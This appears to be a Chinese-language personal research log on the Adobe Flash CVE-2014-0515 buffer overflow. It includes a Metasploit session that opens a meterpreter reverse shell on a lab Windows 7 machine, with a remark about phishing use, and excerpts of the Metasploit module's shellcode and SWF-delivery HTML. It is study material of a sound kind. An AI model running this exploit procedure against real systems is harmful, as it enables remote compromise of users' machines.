 # CVE 2014-0515 渣渣摸索笔记

## 主要报告
[CVE 通用漏洞与披露](http://www.scap.org.cn/CVE-2014-0515.html)<br>
[CVE 官网](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0515)<br>
[类似漏洞概况](http://www.cvedetails.com/cve/CVE-2014-0515/)<br>

## 概况
Buffer overflow in Adobe Flash Player before 11.7.700.279 and 11.8.x through 13.0.x before 13.0.0.206 on Windows and OS X, and before 11.2.202.356 on Linux, allows remote attackers to execute arbitrary code via unspecified vectors, as exploited in the wild in April 2014.<br>


## 演示验证
[Japanese youtube](https://www.youtube.com/watch?v=mNApA4ubsbo)<br>
https://www.rapid7.com/db/modules/exploit/multi/browser/adobe_flash_pixel_bender_bof

### shell
一番折腾之后选择了win7 sp1 32bit进行msf测试。<br>
kali linux进行测试验证，插件是flash_player_activex_13.0.0.182<br>
```
msf > use exploit/multi/browser/adobe_flash_pixel_bender_bof
msf exploit(adobe_flash_pixel_bender_bof) > set SRVHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set LHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPORT 80
msf exploit(adobe_flash_pixel_bender_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPATH /
msf exploit(adobe_flash_pixel_bender_bof) > exploit
```
其中192.168.50.132是本本机端口<br>
最后 生成 http://192.168.50.132:8080/S40YtnhUGivc9<br>
ie中输入这个网站，sessions -i 1 拿shell<br>
就渗透进去了(用来钓鱼那真是。。。)<br>

## 向大佬询问方法
看一些已经有的方法，flash过于复杂，先看一些典型的进行调试分析，没有捷径，只能慢慢来

## 找资料&分析poc
poc采用ruby语言
### 报告阅读(太概括了)
- [heap spraying](https://securelist.com/blog/incidents/59399/new-flash-player-0-day-cve-2014-0515-used-in-watering-hole-attacks/
    提到 movie.swf 和 include.swf 这两个exp样本，两个是在shellcode方面不同，其他类似<br>
    - 准备
        使用heap spray(简单的来说就是在堆栈上覆盖一大片的空指令如NOP)<br>
    - exploit
        1. 采用VirtualProtect改写段的读写权限<br>
        2. VirtualAlloc分配空间并把第二段shellcode拷贝到里面<br>
        3. 是搜索库函数，但是延迟大<br>
           另外一种是到了这里就查找flash10p.ocx的base address，但是需要Adobe Flash Player ActiveX and Cisco MPE才行，但是文中交待并没有明确的payload来分析，因为没有进行重放(为啥)
    - summary<br>
        We detect such exploits by AEP technology as PDM:Exploit.Win32.Generic and by heuristics as HEUR:Exploit.SWF.CVE-2014-0515.gen
    - got<br>
        无

- https://vuldb.com/?id.13085 none
- [较为详细的概括](http://cwe.mitre.org/data/definitions/119.html)
### day1 真是什么都没有摸索到

## 摸索

### 抓包
这个真是。。。抓了一个晚上包，找到swf，然后各种工具配置分析格式。。。。

### 分析msf
#### 初始化
```
'Space' => 2000,
'DisableNops' => true,
'PrependEncoder' => stack_adjust

def stack_adjust
    adjust = "\x64\xa1\x18\x00\x00\x00"  # mov eax, fs:[0x18] # get teb
    adjust << "\x83\xC0\x08"             # add eax, byte 8 # get pointer to stacklimit
    adjust << "\x8b\x20"                 # mov esp, [eax] # put esp at stacklimit
    adjust << "\x81\xC4\x30\xF8\xFF\xFF" # add esp, -2000 # plus a little offset
    adjust
end
```
这里主要配置了payload的一些格式，去除了NOP指令，而采用 stack_adjust 来填充<br>
>Thread Environment Block (TEB)<br>
>由TEB结构/*0x008*/ PVOID ImageBaseAddress;<br>
具体参考http://securityblog.gr/3208/access-x86-tebpeb-with-c-and-assembly/中
接下来on_request_exploit 就是主要的了，等待访问网页，然后发送已经构造好的.swf和html<br>
html主要用来触发网页请求获取swf。<br>

### 构造html和发送swf
```
def exploit_template(cli, target_info)
    swf_random = "#{rand_text_alpha(4 + rand(3))}.swf"
    flash_payload = ""
    get_payload(cli,target_info).unpack("V*").each do |i|
      flash_payload << "0x#{i.to_s(16)},"
    end
    flash_payload.gsub!(/,$/, "")


    html_template = %Q|<html>
    <body>
    <object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" width="1" height="1" />
    <param name="movie" value="<%=swf_random%>" />
    <param name="allowScriptAccess" value="always" />
    <param name="FlashVars" value="sh=<%=flash_payload%>" />
    <param name="Play" value="true" />
    </object>
    </body>
    </html>
    |
    return html_template, binding()
end
```
这个就是构造html
```
if request.uri =~ /\.swf$/
    print_status("Sending SWF...")
    send_response(cli, @swf, {'Content-Type'=>'application/x-shockwave-flash', 'Pragma' => 'no-cache'})
    return
end
```
这个就是发生构造的swf payload<br>
其中也看出了利用的swf是在/usr/share/metasploit-framework/data/exploits/之中(kali linux中)<br>

### Summary of day2
漏洞依旧没有进展，不过学习了很多，下一步仔细分析swf文件，这个msf shellcode里感觉好像找不到明显的漏洞点..完全没有经验的来搞真是曲折啊。。看来是要速看点flash漏洞分析的了。。<br>

## Reference
  http://cvedetails.com/cve/2014-0515/
  http://www.securityfocus.com/bid/67092
  http://helpx.adobe.com/security/products/flash-player/apsb14-13.html
  http://www.securelist.com/en/blog/8212/New_Flash_Player_0_day_CVE_2014_0515_used_in_watering_hole_attacks
  http://blog.trendmicro.com/trendlabs-security-intelligence/analyzing-cve-2014-0515-the-recent-flash-zero-day/




